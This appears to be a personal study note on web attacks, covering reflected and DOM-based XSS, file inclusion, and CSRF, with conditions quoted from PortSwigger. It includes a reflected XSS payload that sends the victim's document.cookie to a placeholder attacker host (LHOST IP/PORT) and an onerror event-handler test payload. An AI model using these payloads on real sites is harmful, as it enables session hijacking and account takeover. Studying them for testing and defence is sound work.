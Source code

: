 - [Portswigger XSS Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) 
Reflected XSS
- Non-Persistent or Type-I XSS
- User input is reflected back within the content of the immediate response
- Common in search and error pages
- Most exploitable as a GET request parameter
	- Still exploitable as POST, test for method interchange
- Requires user interaction
	- Exploited through some sort of social engineering
	- The following payload can be used to steal user's cookies:
```html
<script>document.write('<img src="http://<LHOST IP>:<LHOST PORT>/test.gif?cookie=' + document.cookie + '" />')</script>
```

DOM-Based XSS
- Also known as D-XSS or Type-0 XSS
- User input is processed client-side
	- Independent of the server
	- Added to the page through DOM manipulation
- Found by tracing sources to sinks in client-side code
- Common in applications that rely on client-side rendering 
- Extremely difficult for scanners to find
	- Requires parsing and executing JS in a browser context
- In some cases, servers cannot protect the client
- Exploited similarly to Reflected XSS
	- Input can still be persisted on the client side
- Script tags don't work for DOM XSS
	- Script tags are only parsed once during initial page load
- Event handlers are the preferred payload delivery mechanism
	- `<img src=foo onerror="alert(document.cookie)" />
#### File Inclusion & Request Forgery
At a high level, when you make a request to a web server, it is the server's job to retrieve files relevant to that request and return them to you. The way a web application handles those files can present a multitude of security issues. 

File inclusion and request forgery are potentially possible under conditions where the application is making a request to a local file or a remote web page where the request is a parameter you control. Here is an example of that parameter being in the URL:
```http
GET https://example.com/page?page=about.php
```
Note that these request parameters can appear in other locations such as the referrer header. 
###### Client Side Request Forgery (CSRF)
CSRF allows an attacker to craft a request that they can coerce other users of a site into making that will perform an action as the target user. This is possible when the `SameSite` attribute is not set on cookies used for authentication and re-authentication is not required for the desired actions to be performed. 
>[!NOTE]
For a CSRF attack to be possible, three key conditions must be in place:
>
>- **A relevant action.** There is an action within the application that the attacker has a reason to induce. This might be a privileged action (such as modifying permissions for other users) or any action on user-specific data (such as changing the user's own password).
>- **Cookie-based session handling.** Performing the action involves issuing one or more HTTP requests, and the application relies solely on session cookies to identify the user who has made the requests. There is no other mechanism in place for tracking sessions or validating user requests.
>- **No unpredictable request parameters.** The requests that perform the action do not contain any parameters whose values the attacker cannot determine or guess. For example, when causing a user to change their password, the function is not vulnerable if an attacker needs to know the value of the existing password.
>
>Source: [PortSwigger Web Security Academy](https://portswigger.net/web-security/csrf)